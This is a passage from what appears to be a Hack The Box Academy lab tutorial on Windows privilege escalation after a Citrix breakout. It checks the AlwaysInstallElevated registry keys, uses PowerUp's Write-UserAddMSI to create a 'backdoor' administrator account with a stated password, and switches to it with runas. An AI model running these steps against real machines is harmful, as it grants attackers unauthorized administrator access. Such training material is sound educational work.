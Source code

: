 Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

  Citrix Breakout

```cmd-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1


C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1
```

Once more, we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop.

  Citrix Breakout

```powershell-session
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

![File Explorer window showing Desktop. 'User Add' dialog open with fields: Username 'backdoor', Password 'T3st@123', Group 'Administrators'. Create button visible.](https://academy.hackthebox.com/storage/modules/67/useradd.png)

Back in CMD execute `runas` to start command prompt as the newly created `backdoor` user.

  Citrix Breakout

```cmd-session
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

---

## Bypassing UAC

Even though the newly established user `backdoor` is a member of `Administrators` group, accessing the `C:\users\Administrator` directory remains unfeasible due to the presence of User Account Control (UAC). UAC is a security mechanism implemented in Windows to protect the operating system from unauthorized changes. With UAC, each application that requires the administrator access token must prompt the end user for consent.

